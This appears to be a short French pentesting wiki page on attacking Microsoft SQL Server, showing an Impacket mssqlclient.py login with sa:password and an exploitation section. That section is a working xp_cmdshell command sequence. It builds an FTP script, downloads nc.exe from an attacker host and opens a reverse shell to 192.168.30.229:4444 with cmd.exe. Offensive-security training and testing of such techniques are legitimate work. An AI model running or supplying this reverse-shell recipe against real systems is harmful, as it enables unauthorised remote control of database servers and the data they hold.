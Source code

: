 ```yaml
---
title: Microsoft SQL Server
permalink: /Microsoft_SQL_Server/
---
```


Utilisation
-----------

### Connexion

[Impacket](/Impacket "wikilink") posséde un outil *mssqlclient.py*. L'exemple suivant permet de se connecter avec sa/password et d'executer les commandes contenues dans *commands.txt*:

``` bash
mssqlclient.py -port 27900 sa:password@192.168.31.227 -file commands.txt
```

### Commandes utiles

Exploitation
------------

### Créer un reverse shell

Les commandes suivantes créent un reverse shell en téléchargeant netcat depuis un serveur FTP.

``` text
EXEC master.dbo.xp_cmdshell 'echo open 192.168.30.229> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo USER user>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo 12345>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo bin>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo GET nc.exe>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo bye>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'ftp -v -n -s:ftp.txt';
EXEC master.dbo.xp_cmdshell 'nc.exe -nv 192.168.30.229 4444 -e cmd.exe';
```

Ressources
----------

### Vidéos

-   [DerbyCon 2016 - SQL Server Hacking on Scale using PowerShell - Scott Sutherland](https://www.youtube.com/watch?v=xLbPztByc8M)

### Outils

-   [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

[Category:Technologies](/Category:Technologies "wikilink")